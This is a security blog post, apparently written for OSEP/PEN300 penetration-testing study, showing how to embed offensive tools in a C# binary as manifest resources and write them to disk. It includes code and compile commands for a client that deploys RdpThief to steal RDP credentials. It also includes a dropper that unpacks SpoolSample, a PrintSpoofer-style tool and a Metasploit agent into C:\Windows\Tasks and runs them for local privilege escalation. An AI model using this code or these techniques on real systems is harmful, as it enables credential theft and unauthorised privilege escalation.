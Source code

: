 ```yaml
---
title: "Taking Advantage of Assembly.GetManifestResourceStream for Quick Dirty Hacks"
date: 2021-12-01T04:32:52Z
categories: ["Programming", "Security"]
tags: ["OSEP", "PEN300", "C#", ".NET", "Resource Stream"]
---
```


We all get lazy from time to time, but things need to be done, in this post I am going to share with you a dirty hack that I used to avoid translating a solution written in a X programming language to another programming language. The scenario that we are going to cover here is that let's say we wrote a piece of code that does something but requires another tool to achieve the next step of the aimed goal. One option is to download that tool to disk either manually or using the API of the language your are writing the solution or take advantage of resource stream.

I initially started with the first option then I have figured out that it does not scale right, even if it does work, although we need to note that even the second option is not that ideal due to a lack of control, hence using "dirty hack" expression.

That being said let us dive into the meat of the subject, in order to properly illustrate the idea, we will go through two solutions I have implemented.

C# client for RDPThief:

@0x09AL made a nice tool to steal RDP credential leveraging binary instrumentation, you can find the link of the project in the references section. The tool is a DLL written C++, the usage is quite simple, you inject the DLL into mstsc.exe process. This example fit the description we talked about earlier.

Thanks to .NET Assembly.GetManifestResourceStream() method we can embed RDPThief.dll in our C# project, best of all this works well when loading with .NET assembly in memory. With no further due here is the piece of code that I have found in stackoverflow that allow us to extract embedded resources to disk:

```C#
// Source: https://stackoverflow.com/questions/2989400/store-files-in-c-sharp-exe-file/2989496

public static void WriteResourceToFile(string resourceName, string fileName)
{
	try
	{
		int bufferSize = 4096; // set 4KB buffer
		byte[] buffer = new byte[bufferSize];
		using (Stream input = System.Reflection.Assembly.GetExecutingAssembly().GetManifestResourceStream(resourceName))
		using (Stream output = new FileStream(fileName, FileMode.Create))
		{
		int byteCount = input.Read(buffer, 0, bufferSize);
		while (byteCount > 0)
		{
		output.Write(buffer, 0, byteCount);
		byteCount = input.Read(buffer, 0, bufferSize);
		}
		}
	}
	catch (Exception e) { Console.WriteLine(e.Message); }
}
```

It is important to note that this is not OPSEC safe, resource stream is not something new, if one of the embedded files is flagged by the anti-virus it is game over.  
You can find the complete source code of the RDPThief client here:

https://gist.github.com/tahadraidia/74540f5749d83b2fcbb317187cd18205

Compile command used (Mono C# compiler):

```sh
mcs -target:exe -platform:x64 -out:rdpthief.exe -resource:RdpThief.dll *.cs
```

LPE Through Print Bug:

This implementation leverage the SpoolSample application to privilege escalate by forcing it to run our Metasploit agent. This will use similar approach then before, however, this project requires the agent to be compiled and placed in a specific location of our choice. 

This time three files will be embedded in the project, the SpoolSample application, Metasploit agent and our implementation of printSpoofer in .NET, although this good be properly integrated in the code main code base of this project, once again time is precious here.

```C#
const string spoolsample = @"C:\Windows\Tasks\SpoolSample.exe";
const string spoof = @"C:\Windows\Tasks\spoof.exe";
const string local = @"C:\Windows\Tasks\local.exe";
string hostname = Dns.GetHostName();
// Check for file on Disk
var files = new List<String>();
files.Add(spoolsample);
files.Add(spoof);
files.Add(local);

Regex regx = new Regex("[a-zA-Z0-9]+.exe");
foreach (string file in files)
{
	if(!File.Exists(file))
	{
	MatchCollection matched= regx.Matches(file);
	if(matched.Count == 1)
	{
	WriteResourceToFile(matched[0].Value, file);
	}
}
}
```

Above code copies files into disk, and the code below is where magic happens.

```C#
...
// Give it time.
Thread.Sleep(3000);
// Bail if files does not exists on disk.
if (!File.Exists(spoof) || !File.Exists(spoolsample))
	System.Environment.Exit(0);

string spoolsampleparam = String.Format("{0} {0}/pipe/test", hostname);
Runner runner1 = new Runner(spoof, @"\\.\pipe\test\pipe\spoolss");
Runner runner2 = new Runner(spoolsample, spoolsampleparam);
Thread th1 = new Thread(new ThreadStart(runner1.Execute));
th1.Start();

if (th1.ThreadState == System.Threading.ThreadState.Running)
	new Thread(new ThreadStart(runner2.Execute)).Start();
...
```

The code is self-explanatory, also loads of resources only could be found on this subject, as for the first code, you can find the full version here:

https://gist.github.com/tahadraidia/74540f5749d83b2fcbb317187cd18205

Compile command used (Mono C# compiler):

```sh
mcs -target:exe -platform:x64 -out:lpeprintbug.exe -resource:spoof.exe -resource:SpoolSample.exe -resource:local.exe *.cs
```

References:
- https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.getmanifestresourcestream?view=net-6.0
- https://twitter.com/0x09AL
- https://github.com/0x09AL/RdpThief
- https://github.com/leechristensen/SpoolSample
